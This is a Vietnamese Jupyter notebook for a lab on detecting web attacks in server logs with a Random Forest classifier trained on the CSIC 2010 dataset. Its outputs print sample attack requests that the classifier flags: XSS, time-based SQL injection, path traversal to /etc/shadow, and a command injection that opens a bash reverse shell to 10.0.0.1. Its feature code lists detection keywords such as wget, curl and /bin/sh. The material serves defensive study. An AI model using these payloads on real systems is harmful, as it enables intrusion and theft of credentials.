# Lab 8 & 9: PHÁT HIỆN TẤN CÔNG WEB QUA LOG BẰNG MACHINE LEARNING


## 1. Trích xuất đặc trưng (Feature Engineering)

Log Web là dạng văn bản, máy tính không hiểu được, cần biến nó thành số.

In [ ]:
import pandas as pd
import re
from urllib.parse import unquote

def extract_features(url):
    # Kẻ tấn công thường encode nhiều lần, ta sẽ unquote để bóc lớp vỏ
    url = unquote(str(url)).lower()
    
    # 1. Các nhóm từ khóa chuyên sâu
    sql_words = r'(select|union|insert|drop|where|delete|and|or|--|/\*|\*/|xp_cmdshell|update|exec|waitfor)'
    js_words = r'(script|alert|onerror|onload|eval|javascript:|document\.cookie|iframe|src=|img)'
    cmd_words = r'(bash|cmd|ping|wget|curl|chmod|cat|/bin/sh)'
    path_traversal = r'(\.\./|\.\.\\|\%2e\%2e|\%2f|/etc/passwd|/etc/shadow|boot\.ini|win\.ini)'
    
    return {
        'length': len(url),
        'special_char_count': len(re.findall(r'[!@#$%^&*()\":{}|<>]', url)),
        'sql_keywords': len(re.findall(sql_words, url)),
        'js_keywords': len(re.findall(js_words, url)),
        'cmd_keywords': len(re.findall(cmd_words, url)), 
        'path_traversal': len(re.findall(path_traversal, url)), 
        'single_quotes': url.count("'"), 
        'percent_encoding': url.count("%"), 
        'is_brute': 1 if "login" in url and "password" in url else 0,
        'num_digits': sum(c.isdigit() for c in url),
        'num_params': url.count('&'),
        'has_encoded': 1 if '%' in url else 0,
        'has_path_traversal': 1 if '../' in url else 0,
        'has_admin': 1 if 'admin' in url else 0,
    }


## 2. Huấn luyện mô hình (Dùng Random Forest)

Random Forest chạy rất nhanh và tốn cực ít RAM so với mạng Neural.

In [ ]:
import pandas as pd

df_csic = pd.read_csv('csic_database.csv/csic_database.csv')
df_csic = df_csic.dropna(subset=['URL', 'classification'])
# 1. Giả lập một vài dữ liệu log (Bạn có thể thay thế bằng hàm đọc file log thật của bạn)
raw_data = []
for index, row in df_csic.iterrows():
    # Lấy URL
    full_request = str(row['URL'])
    full_request = full_request.replace('http://localhost:8080/tienda1', '')
    full_request = full_request.replace('http://localhost:8080', '')
    # Kiểm tra nếu cột 'content' có dữ liệu (không bị rỗng/NaN) thì gộp vào
    if pd.notna(row['content']):
        full_request += " " + str(row['content'])

    features = extract_features(full_request)
    features['label'] = int(row['classification'])
    raw_data.append(features)

# 2. Xây dựng danh sách các độ đo đã tính toán (features) dựa trên hàm extract_features
# processed_data = []
# for item in raw_data:
#     # Trích xuất đặc trưng từ url
#     features = extract_features(item['URL'])
#     # Thêm nhãn (label) vào kết quả
#     features['label'] = item['label']
#     processed_data.append(features)


# ====== DATA AUGMENTATION (BƠM DỮ LIỆU NHÂN TẠO) ======

# 1. Bơm dữ liệu Bình thường (Label 0)
synthetic_normals = ['/', '/index.html', '/home', '/login', '/css/style.css']
for req in synthetic_normals:
    feat = extract_features(req)
    feat['label'] = 0
    # Copy 50 lần để tạo sức nặng
    for _ in range(50):
        raw_data.append(feat)

# 2. Bơm dữ liệu Tấn công ngoại lệ (Label 1) - AI nhận diện LFI
synthetic_attacks = ['/etc/passwd', '/etc/shadow', '../../etc/passwd', 'boot.ini', 'win.ini']
for req in synthetic_attacks:
    feat = extract_features(req)
    feat['label'] = 1
    # Copy 50 lần để tạo sức nặng
    for _ in range(50):
        raw_data.append(feat)
# 3. Tạo DataFrame "df" từ danh sách trên
df = pd.DataFrame(raw_data)

# In thử dataframe ra xem các đặc trưng đã đúng chưa
display(df.head())


,length,special_char_count,sql_keywords,js_keywords,cmd_keywords,path_traversal,single_quotes,percent_encoding,is_brute,num_digits,num_params,has_encoded,has_path_traversal,has_admin,label
0,19,0,0,0,0,0,0,0,0,2,0,0,0,0,0
1,95,4,0,0,0,0,0,0,0,9,4,0,0,0,0
2,95,4,0,0,0,0,0,0,0,9,4,0,0,0,0
3,94,4,0,0,0,0,0,0,0,5,4,0,0,0,0
4,94,4,0,0,0,0,0,0,0,5,4,0,0,0,0


In [ ]:
from sklearn.utils import class_weight
from sklearn.ensemble import RandomForestClassifier
from sklearn.model_selection import train_test_split

# df là DataFrame từ CSIC 2010
X = df.drop('label', axis=1)
y = df['label']

X_train, X_test, y_train, y_test = train_test_split(X, y, test_size=0.2, random_state=42)
#model = RandomForestClassifier(
#    n_estimators=300,
#    max_depth=30,             # Tăng max_depth hoặc để None
#    class_weight=None,      # Để thuật toán tự cân bằng
#    random_state=42           # Thêm random_state để kết quả ổn định qua các lần chạy
#)
#model.fit(X_train, y_train)
model = RandomForestClassifier(n_estimators=300, max_depth=25, random_state=42)
model.fit(X, y)
print("Finished training")

Finished training


## Tỉ lệ mong muốn:
*  Recall attack: ~0.8 – 0.9
*  Precision attack: ~0.65 – 0.75

Độ chính xác tổng thể (Accuracy): 92.05%

--- BÁO CÁO PHÂN LOẠI CHI TIẾT ---
              precision    recall  f1-score   support

  Normal (0)       0.95      0.91      0.93      7170
  Attack (1)       0.88      0.94      0.91      5143

    accuracy                           0.92     12313
   macro avg       0.92      0.92      0.92     12313
weighted avg       0.92      0.92      0.92     12313





In [4]:
from sklearn.metrics import accuracy_score, classification_report, confusion_matrix
import seaborn as sns
import matplotlib.pyplot as plt

# 1. Cho người máy (model) dự đoán trên tập dữ liệu thi (X_test)
#y_pred = model.predict(X_test)
y_probs = model.predict_proba(X_test)[:,1]
threshold = 0.35 
y_pred = (y_probs > threshold).astype(int)


# 2. Chấm điểm độ chính xác tổng thể (Accuracy)
acc = accuracy_score(y_test, y_pred)
print(f"Độ chính xác tổng thể (Accuracy): {acc * 100:.2f}%")

# 3. In Báo cáo phân loại chi tiết (Precision, Recall, F1-Score)
print("\n--- BÁO CÁO PHÂN LOẠI CHI TIẾT ---")
print(classification_report(y_test, y_pred, target_names=["Normal (0)", "Attack (1)"]))

# 4. Vẽ "Ma trận nhầm lẫn" (Confusion Matrix) để dễ nhìn
cm = confusion_matrix(y_test, y_pred)
plt.figure(figsize=(6, 4))
sns.heatmap(cm, annot=True, fmt="d", cmap="Blues", 
            xticklabels=["Normal", "Attack"], 
            yticklabels=["Normal", "Attack"])

plt.xlabel("Mô hình dự đoán (Predicted)")
plt.ylabel("Thực tế (Actual)")
plt.title("Ma trận nhầm lẫn (Confusion Matrix)")
plt.show()


# Kiểm tra thực tế

In [5]:
import re
import pandas as pd

# 1. Đọc file log Nginx mà bạn vừa tạo
with open('access.log', 'r') as f:
    log_lines = f.readlines()

real_requests = []
for line in log_lines:
    # Bóc tách đoạn URL request từ log Nginx (Bỏ qua IP, Timestamp...)
    match = re.search(r'"(?:GET|POST|PUT|DELETE) (.*?) HTTP/', line)
    if match:
        req = match.group(1)
        # BÍ QUYẾT: Ghép thêm domain giả lập để giống với dữ liệu lúc Train (CSIC 2010)
        # Nếu không ghép, mô hình sẽ thấy chuỗi quá ngắn và mặc định đó là bất thường
        real_requests.append(req)

# 2. Trích xuất đặc trưng
test_features = []
for req in real_requests:
    test_features.append(extract_features(req))

#df_test = pd.DataFrame(test_features)
df_test = pd.DataFrame(test_features, columns=X.columns)
# Ép lại thứ tự cột cho khớp với lúc huấn luyện
#df_test = df_test[X.columns]

# 3. Cho máy dự đoán
y_probs_real = model.predict_proba(df_test)[:, 1]
y_pred_real = (y_probs_real > 0.35).astype(int) # Giữ nguyên threshold 0.35

# 4. In kết quả xem nó bắt được ai
print("--- Result---")
for idx, req,  in enumerate(real_requests):
    if y_pred_real[idx] == 1:
        print(f"[Attack]: {req:<35} (Prob: {y_probs_real[idx]:.2f})")
    else:
        print(f"[Normal]: {req:<32} (Prob: {y_probs_real[idx]:.2f})")

--- Result---
[Attack]: /?id=<script>alert(1)</script>      (Prob: 0.88)
[Attack]: /login?user=admin&pass=1            (Prob: 0.94)
[Attack]: /login?user=admin&pass=2            (Prob: 0.94)
[Attack]: /login?user=admin&pass=3            (Prob: 0.94)
[Attack]: /login?user=admin&pass=4            (Prob: 0.94)
[Attack]: /login?user=admin&pass=5            (Prob: 0.94)
[Attack]: /login?user=admin&pass=6            (Prob: 0.94)
[Attack]: /login?user=admin&pass=7            (Prob: 0.94)
[Attack]: /login?user=admin&pass=8            (Prob: 0.94)
[Attack]: /login?user=admin&pass=9            (Prob: 0.94)
[Attack]: /login?user=admin&pass=10           (Prob: 0.99)
[Attack]: /login?user=admin&pass=11           (Prob: 0.99)
[Attack]: /login?user=admin&pass=12           (Prob: 0.99)
[Attack]: /login?user=admin&pass=13           (Prob: 0.99)
[Attack]: /login?user=admin&pass=14           (Prob: 0.99)
[Attack]: /login?user=admin&pass=15           (Prob: 0.99)
[Attack]: /login?user=admin&pass=16       

In [6]:
import re
import pandas as pd

# 1. Đọc file test.log (Định dạng CSV giả lập)
with open('testlog.log', 'r', encoding='utf-8') as f:
    log_lines = f.readlines()

real_requests = []
for line in log_lines:
    # Bóc tách đoạn URL từ file test.log (Lấy phần sau dấu phẩy cuối cùng đến trước chữ HTTP)
    match = re.search(r',([^,]+)\s+HTTP/1\.[01]', line)
    
    if match:
        raw_url = match.group(1).strip()
        
        # BÍ QUYẾT: Cắt bỏ domain giống hệt như cách bạn đã làm ở bước Huấn luyện
        # Điều này giúp đặc trưng 'length' và các chuỗi khớp hoàn toàn với dữ liệu train
        clean_url = raw_url.replace('http://localhost:8080/tienda1', '')
        clean_url = clean_url.replace('http://localhost:8080', '')
        
        # Lưu ý: Nếu ở test.log bạn có tách được phần 'content' của POST request,
        # bạn cũng nên nối nó vào đuôi clean_url giống như lúc train.
        
        real_requests.append(clean_url)

# 2. Trích xuất đặc trưng
test_features = []
for req in real_requests:
    test_features.append(extract_features(req))

# Tạo DataFrame và ép thứ tự cột khớp với tập Train (X.columns)
df_test = pd.DataFrame(test_features, columns=X.columns)

# Mẹo an toàn: Điền giá trị 0 cho các cột bị thiếu (nếu có đặc trưng nào đó không xuất hiện)
for col in X.columns:
    if col not in df_test.columns:
        df_test[col] = 0
df_test = df_test[X.columns]

# 3. Cho máy dự đoán
y_probs_real = model.predict_proba(df_test)[:, 1]
y_pred_real = (y_probs_real > 0.35).astype(int) # Giữ nguyên threshold 0.35 của bạn

# 4. In kết quả xem nó bắt được ai
print("--- Result cho testlog.log ---")
for idx, req in enumerate(real_requests):
    if y_pred_real[idx] == 1:
        print(f"[Attack]: {req:<45} (Prob: {y_probs_real[idx]:.2f})")
    else:
        print(f"[Normal]: {req:<45} (Prob: {y_probs_real[idx]:.2f})")

--- Result cho testlog.log ---
[Normal]: /home.jsp                                     (Prob: 0.09)
[Attack]: 1%20FROM%20admin_users--                      (Prob: 0.92)
[Attack]: /images/banner_promo.jpg                      (Prob: 0.68)
[Attack]: /profile.jsp?user_id=WAITFOR%20DELAY%20'0:0:5' (Prob: 0.99)
[Attack]: /update_profile.jsp                           (Prob: 0.77)
[Attack]: /view_log.jsp?logfile=..%2f..%2f..%2f..%2f..%2fetc%2fshadow (Prob: 1.00)
[Normal]: /robots.txt                                   (Prob: 0.00)
[Attack]: /submit_feedback.jsp                          (Prob: 0.58)
[Attack]: /css/bootstrap.min.css                        (Prob: 0.58)
[Attack]: /diagnostics.jsp?target=127.0.0.1%20%26%26%20bash%20-i%20>%26%20/dev/tcp/10.0.0.1/8080%200>%261 (Prob: 0.60)
[Normal]: /mobile/index.jsp                             (Prob: 0.04)
[Attack]: /search.jsp?q="><iframe%20onload=eval(atob('YWxlcnQoMSk='))></iframe> (Prob: 1.00)
[Normal]: /cart/add                                 